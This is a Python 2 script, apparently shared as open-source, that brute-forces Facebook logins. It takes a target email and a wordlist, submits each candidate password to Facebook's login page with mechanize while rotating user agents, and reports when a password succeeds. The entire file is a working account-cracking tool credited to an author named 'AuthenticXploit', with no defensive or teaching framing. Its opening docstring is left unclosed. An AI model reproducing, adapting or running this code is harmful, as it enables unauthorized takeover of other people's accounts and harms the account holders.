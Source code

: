 
#!/usr/bin/env python2
# encoding: utf-8
"""
SycoTarget.py


# Import module
try:
    import sys
    import mechanize
    import cookielib
    import random
    import os
    import time
    from os import system
    from time import sleep
    from sys import exit
except ImportError as f:
    system("clear")
    print("\033[32;1m[\033[31;1m!\033[32;1m] \033[0;33mError \033[31;1m: \033[37;1m{}".format(f))

banner = """\033[36;1m
m    m                mmmm                        ##  ##  m mm         #"   " m   m   mmm    mmm
 # ## #  #"  "        "#mmm  "m m"  #"  "  #" "#   # "" #  #                "#  #m#   #      #   #
 #    #  #            "mmm#"  "#    "#mm"  "#m#"                                m"
                             ""  \\\033[1;97m:
                     
     \x1b[1;97m Author   \033[31;1m:  \033[32mAuthenticXploit
     \x1b[1;97m Type     \033[31;1m:  \033[32mBruteForce
     \x1b[1;97m Version  \033[31;1m:  \033[32m0.3
     \x1b[1;97m Contact  \033[31;1m:  \033[32mhttps://t.me/AuthenticXploit
     \x1b[1;97m
"""

def slowprint(s):
    for c in s + '\n':
        sys.stdout.write(c)
        sys.stdout.flush()
        sleep(2.0 / 90)

system("clear")
slowprint(banner)
email = str(raw_input("\033[37;1minput facebook target \033[31;1m: \033[33;1m"))
passwordlist = str(raw_input("\033[37;1minput wordlist \033[31;1m: \033[33;1m"))
login = 'https://www.facebook.com/login.php?login_attempt=1'
useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1')]

def main():
    try:
        global br
        br = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        br.set_handle_robots(False)
        br.set_handle_redirect(True)
        br.set_cookiejar(cj)
        br.set_handle_equiv(True)
        br.set_handle_referer(True)
        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        menu()
        search()
        print("\033[32;1m[\033[31;1m!\033[32;1m]\033[33;1m Password does not exist in the wordlist")
    except mechanize.URLError:
        print("\n\033[32;1m[\033[31;1m!\033[32;1m]\033[33;1m No Connection")
        sleep(2)
        print("\033[32;1m[\033[31;1m!\033[32;1m] \033[31;1mExit\x1b[0m")
        exit()

def brute(password):
    sys.stdout.write("\033[36;1m\r[\033[33;1m-\033[36;1m] \033[37;1mTrying Password \033[31;1m=> \033[33;1m{}\n".format(password))
    sys.stdout.flush()
    br.addheaders = [('User-agent', random.choice(useragents))]
    site = br.open(login)
    br.select_form(nr = 0)
    br.form['email'] = email
    br.form['pass'] = password
    sub = br.submit()
    log = sub.geturl()
    if log != login and (not 'login_attempt' in log):
        print("\033[36;1m[\033[33;1m+\033[36;1m] \033[37;1mPassword Found => \033[32;1m{}".format(password))
        raw_input("\033[31;1mANY KEY to Exit....")
        exit(1)

def search():
    global password
    passwords = open(passwordlist,"r")
    for password in passwords:
        password = password.replace("\n","")
        brute(password)

#menu
def menu():
    try:
        total = open(passwordlist,"r")
        total = total.readlines()
        print(banner)
        print "\033[36;1m[\033[31;1m-\033[36;1m] \033[32;1mAccount to crack \033[31;1m> \033[0;33m{}".format(email)
        print "\033[36;1m[\033[31;1m-\033[36;1m] \033[32;1mLoaded \033[31;1m>\033[0;33m" , len(total), "passwords"
        print("\033[36;1m[\033[31;1m-\033[36;1m] \033[33;1mCracking, please wait ...\n")
    except IOError:
        print("\n\033[32;1m[\033[31;1m!\033[32;1m]\033[33;1m File wordlist \033[36;1m{} \033[33;1mNot Found\x1b[0m".format(passwordlist))
        exit()
	
if __name__ == '__main__':
    try:
        main()
    except(KeyboardInterrupt, EOFError):
        print("\033[36;1m\n[\033[31;1m!\033[36;1m]\033[33;1mDetects a forced stop program \x1b[0m")
        exit(0)
